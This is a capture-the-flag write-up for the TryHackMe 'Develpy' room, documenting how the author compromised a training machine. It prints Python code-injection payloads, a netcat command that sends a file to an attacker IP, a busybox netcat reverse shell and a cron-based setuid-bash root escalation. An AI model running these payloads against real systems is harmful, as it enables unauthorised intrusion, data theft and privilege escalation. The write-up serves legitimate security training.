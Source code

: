 # Develpy CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Develpy** CTF challenge on [TryHackMe](https://tryhackme.com/room/bsidesgtdevelpy). 
---


we see open ports 22 and 10000

![scn](imgs/scn.png "scn")

we can use netcat to connect to port 10000, we are prompted to input a number

the output looks like modified ping command

![p](imgs/p.png "p")

i asked AI how we could try to exploit this and it suggested:

```
__import__('os').system('ls')
```

and it worked we see some files

![ls](imgs/ls.png "ls")

```
__import__('os').system('cat exploit.py')
```

here we can see the code that is run

![ex](imgs/ex.png "ex")

```
__import__('os').system('cat user.txt')
```

at this point we can also grab user flag

![us](imgs/us.png "us")

we see file credentials.png, we can try to transfer it to our machine using netcat

```
VICTIM:
__import__('os').system('nc 10.14.91.59 4444 < credentials.png')

ATTACKER:
nc -lvp 4444 > credentials.png
```

this seems like a dead end, there is nothing interesting in this file

![im](imgs/im.png "im")

instead of using this python syntax we can try to open reverse shell to gain shell access

```
__import__('os').system('busybox nc 10.14.X.X 4445 -e /bin/bash')
```

and it works we have access as king

![rs](imgs/rs.png "rs")

after running linpeas we see cronjobs that will execute as root

![cron](imgs/cron.png "cron")

we can remove the /home/king/root.sh and create our own 

```
$ rm root.sh
$ echo "cp /bin/bash /tmp/bash && chmod +s /tmp/bash" > root.sh
$ ls -la /tmp
$ /tmp/bash -p
```

now we wait for our script to execute

now we have access as root and root flag

![root](imgs/root.png "root")

# MACHINE PWNED

